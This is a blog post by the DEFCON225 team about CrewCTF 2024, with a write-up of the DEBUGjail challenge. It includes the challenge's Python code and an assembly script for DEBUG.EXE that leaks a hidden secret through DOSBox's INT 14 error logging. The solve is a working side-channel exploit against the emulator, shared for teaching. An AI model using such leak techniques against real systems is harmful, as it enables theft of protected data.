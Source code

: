 ```yaml
---
title: "DC225 Draws First Blood at CrewCTF 2024"
layout: blog_article
author: dc225
version: 1.1.1
description: ""
---
```


We are excited to share that DEFCON225 (DC225) has made a significant impact at this year's 3rd Edition of [Crew Capture the Flag (CTF)](https://2024.crewc.tf/teams/469) competition hosted by [TheHackersCrew](https://www.thehackerscrew.team/).

CrewCTF 2024 was an intense and highly competitive event, featuring some of the best cybersecurity minds from around the globe. Despite the fierce competition, DEFCON225 managed to place in the top 10%, a testament to our dedication, skill, and teamwork.

We want to extend our gratitude to all our team members for their hard work and commitment. This achievement not only showcases our capabilities but also sets a high bar for our future endeavors.

The **DEBUGjail** challenge was particularly demanding, garnering only 3 solves. Drawing first blood in such a challenge highlights our team's ability to think outside the box and tackle complex problems under pressure.

**Our DEBUGjail Challenge Write-up**

In the spirit of fostering growth and learning within the cybersec community, we are pleased to share our write-up on how we solved the DEBUGjail challenge. By providing this detailed account, we hope to contribute to the collective knowledge base and support others in honing their skills. Read on to discover our approach that led to our success with this well crafted challenge by author **Aali**.

_Jails can be so restrictive. This jail is different! You can do whatever you want! As long as what you want is to use a debugger from 1991._

The challenge provided the aforementioned description and the following Python code:

```python
import sys
import os
import subprocess
import tempfile
import shutil

from secrets import FLAG

SECRET = os.urandom(16)

secret_script = "\r".join(["f 0000:02%02x 2%02x %02x" % (i,i,b) for (i,b) in enumerate(SECRET)]) + "\rQ\r"

tempdir = tempfile.TemporaryDirectory()

shutil.copy("DEBUG.EXE", tempdir.name) # DEBUG.EXE from MS-DOS 5.0, unmodified

open(tempdir.name + "/secret.dsf", "w").write(secret_script)

print("The secret is at address 0000:0200 in memory.")
print("There is no memory protection so just go ahead and read it ¯\_('_')_/¯")
print("Enter your DEBUG script, end with a line containing only 'Q':")

debug_script = ""

while True:
  line = sys.stdin.readline().strip()

  debug_script = debug_script + line + "\r" # DOSBox + DEBUG + linefeed = bad

  if line == "Q":
    break

open(tempdir.name + "/input.dsf", "w").write(debug_script)

cmds = [
  "mount c: " + tempdir.name,
  "config -securemode",
  "c:",
  "debug < secret.dsf",
  "del secret.dsf",
  "debug < input.dsf",
  "exit",
]

args = ["dosbox"] + sum([["-c", cmd] for cmd in cmds], [])

subprocess.run(args, timeout = 10)

if input("What was the secret? ") == SECRET.hex():
  print(f"That is correct! Here is your flag: {FLAG}")
else:
  print("Sorry that's not correct, better luck next time!")
```

The script randomly generates a secret value 16 bytes in length, and then generates a `secret_script` that is executed by [DEBUG.EXE](<https://en.wikipedia.org/wiki/Debug_(command)>) to store the secret at memory address 0000:0200 in a DOSBox environment.

```python
SECRET = os.urandom(16)

secret_script = "\r".join(["f 0000:02%02x 2%02x %02x" % (i,i,b) for (i,b) in enumerate(SECRET)]) + "\rQ\r"
```

We're then given the opportunity to provide our own DEBUG commands to extract the secret value from memory, followed by Q (quit). The following snippet of the script contains a list of DOS commands that are passed to DOSBox. `secret.dsf` is run first (to load the secret into memory), followed by our script:

```python
cmds = [
  "mount c: " + tempdir.name,
  "config -securemode",
  "c:",
  "debug < secret.dsf", # loads the secret into memory at address 0000:0200
  "del secret.dsf", # delete the `secret_script` so the user cannot cheese it
  "debug < input.dsf", # run the user supplied script
  "exit",
]

args = ["dosbox"] + sum([["-c", cmd] for cmd in cmds], [])

subprocess.run(args, timeout = 10)
```

This should be pretty straightforward. We simply utilize the DEBUG.EXE dump command to read the secret right back...

<img src="/assets/blog/debugjail.webp" border="0" alt="DEBUGjail screenshot" class="lazy" />

Here we attempted to dump the memory at address `0000:0200`, then we used the assembler command of DEBUG to create an endless loop to help screen capture what's happening here. DOSBox runs the DEBUG command, passing in the `secret.dsf` script, then our `input.dsf` script. In the screenshot, we see that the bytes from the `secret.dsf` `f (fill)` commands and our `input.dsf` memory dump command are a match!

Excellent! We have solved the challenge... Or so we thought. Unfortunately in the live challenge, we are unable to see the DOSBox GUI/terminal.

**Enter DOSBox source code**

Because we can't see the GUI, there could be a way to get DOSBox to exfil the secret to us over the CLI we _can_ see. A grep of DOSBox source code for `"SHELL:Redirect input"` found a match on line 226 of `src/shell/shell.cpp`:

```cpp
if(DOS_OpenFile(in,OPEN_READ,&dummy)) {	//Test if file exists
    ...
    LOG_MSG("SHELL:Redirect input from %s",in);
    ...
}
```

Thus the hunt began for a `LOG_MSG()` call that we could use to pass data back to us. A promising bit of code was found on line 454 of `src/ints/bios.cpp`:

```cpp
static Bitu INT14_Handler(void) {
    if (reg_ah > 0x3 || reg_dx > 0x3) {	// 0-3 serial port functions
                                        // and no more than 4 serial ports
        LOG_MSG("BIOS INT14: Unhandled call AH=%2X DX=%4x",reg_ah,reg_dx);
        return CBRET_NONE;
    }
    ...
```

A web search for INT 14 led us to something to do with `BIOS Asynchronous Communications Services`, and the `INT14_Handler()` function appears to be involved in handling this interrupt.

Conveniently, we can avoid the handler's intended functionality by loading values greater than 0x3 into either the AH or DX registers, and upon calling the interrupt, `LOG_MSG()` will be called, printing the values stored in the aforementioned registers!

**The exploit**

The following DEBUG script assembles and then runs code to exfil the secret bytes.

For each byte of the secret, it loads the byte value into the DH register and then triggers `INT 14`. Upon calling the interrupt, an error message containing the value is printed to the CLI that is executing DOSBox.

```
C:\>debug
-a 100
073F:0100 xor ax,ax    # zero ax
073F:0102 mov ds,ax    # load DS (Data Segment) register with 0000
073F:0104 mov ah,4     # load the value 4 to satisfy DOSBox `if` statement
073F:0106 mov si,0200  # load SI with the offset into the segment (thus 0000:0200)
073F:0109 xor dx,dx
073F:010B mov dl,ff    # load the value FF into DL (for our own display purposes)
073F:010D mov dh,[si]  # load the byte at 0000:02xx into DH
073F:010F int 14       # call the interrupt, triggering the "error message"
073F:0111 inc si
073F:0112 cmp si,0210
073F:0116 jne 010d     # exfil the next byte or
073F:0118 mov ax,4c00
073F:011B int 21       # terminate with return code 0
073F:011D
-g
```

[![asciicast](https://asciinema.org/a/m92aEgJn8CtA0pEekqIuUjHP8.svg)](https://asciinema.org/a/m92aEgJn8CtA0pEekqIuUjHP8)

**Wrap-up**

Solving DEBUGjail was a refreshingly nostalgic experience for DEFCON225. It was invigorating to tackle a challenge that required truly out-of-the-box thinking and a deep dive into vintage computing techniques. The unique nature of this challenge, harking back to the days of DOS and DEBUG.EXE, provided a stimulating contrast to the more contemporary cybersecurity problems we usually encounter.

Big shout-outs to Aali for crafting such an innovative and challenging task. It was a brilliant reminder of the diverse range of skills and knowledge that cybersecurity encompasses. Additionally, we are grateful to TheHackersCrew for organizing and hosting CrewCTF 2024, making such enriching experiences possible.
